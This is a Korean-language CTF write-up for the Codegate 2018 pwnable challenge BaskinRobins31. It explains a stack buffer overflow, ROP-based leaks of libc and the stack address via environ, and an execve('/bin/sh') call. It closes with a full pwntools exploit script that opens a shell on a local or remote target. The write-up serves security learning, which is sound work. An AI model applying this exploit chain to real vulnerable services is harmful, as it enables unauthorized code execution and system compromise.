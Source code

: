 ```yaml
---
title: Codegate CTF 2018 Qual - BaskinRobins31
date: 2024-07-09 00:00:00 +0900
categories: [CTF, Pwnable]
tags: [ctf, pwnable, bof, rop]
render_with_liquid: false
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Concept

베스킨라빈스 게임을 거꾸로해서 **1~3까지의 숫자를 고르면 (중요)** 31에서 빼고, 마지막 숫자 0을 부르는 사람이 지는 게임을 구현했다.

## 0x01. Vulnerability

``` c
__int64 __fastcall your_turn(_DWORD *a1)
{
  ...
  char buf[160]; // [rsp+10h] [rbp-B0h] BYREF

  len = read(0, buf, 0x190uLL);
  ...
}
```

취약점은 단순하게 내가 입력을 넣는 `your_turn()`에서 BOF가 발생한다.

## 0x02. Exploit

``` python
    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")
```

BOF가 가능하니 ROP를 이용해서 libc leak을 했고 `execve` 주소까지는 잘 획득했다.

처음에는 `system`의 주소로 exploit을 진행했는데, stack alignment 때문인지 segmentation fault가 발생해서 `execve`로 바꿨더니 성공했다.

문제는 `execve`에 어떻게 `/bin/sh`를 전달하느냐인데, libc에서 찾아서 전달해도 되지만 `environ`을 이용한 stack leak으로 해결했다.

``` python
    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")
```

이렇게 `environ`에 담겨있는 stack 영역 주소를 받아와서 `buf+0x8`과의 offset 차이를 계산한 후, `buf+0x8`에 `/bin/sh` 문자열을 넣어서 `execve` 함수의 인자로 전달했다.

``` python
    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()
```

그런데 마지막 payload에서 `pppr` 가젯에 갈때 이상하게 `rsi` 값만 이상해져서 쉘이 자꾸 안떴다.

``` bash
➜  0x40097a <your_turn+214>  ret
    ↳   0x40087a <helper+4>       pop    rdi
        0x40087b <helper+5>       pop    rsi
        0x40087c <helper+6>       pop    rdx
        0x40087d <helper+7>       ret
gef➤  x/4gx $rsp
0x7fffffffe188: 0x000000000040087a      0x00007fffffffe0d8
0x7fffffffe198: 0x00000000fffffffd      0x000000000000000
```

처음에는 뭐지 싶어서 그냥 `pppr` 가젯을 두 번 호출하는 것으로 해결했는데...

```
.text:000000000040095D  mov     rax, [rbp+var_B8]
.text:0000000000400964  mov     eax, [rax]
.text:0000000000400966  sub     eax, [rbp+choice]
```

알고보니 베스킨라빈스 게임을 하면서 내가 입력한 값이 감소하는 것이었다 ㅋㅋㅋㅋ

그래서 어? 앞에서는 왜 잘 됐지? 하고 확인해보니...

``` c
write(1, write_got, 8 - 1);
write(1, write_got, 8 - 2);
```

앞의 ROP payload에서는 `write`의 `size` 인자값에서 1, 2만큼 빠졌고, 주소값이 어차피 8바이트를 다 안쓰니까 괜찮았던거였다 ㅋㅋㅋㅋ

Payload를 작성할 때 dummy를 다르게 구성해서 어느 payload가 전달된건지 알 수 있게끔 하려고 한건데, 이런 나비효과가 발생할 줄이야...

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "BaskinRobins31"
LIBRARY = "libc.so.6"

bp = {
    'main' : 0x0000000000400a4b,
    'end_of_main' : 0x0000000000400b5a,
    'your_turn' : 0x00000000004008a4,
    'end_of_your_turn' : 0x000000000040097a,
    'pppr' : 0x40087a,                          # pop rdi; pop rsi; pop rdx
}

gs = f'''
b *{bp['end_of_your_turn']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recv(1024)

    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")

    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")

    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```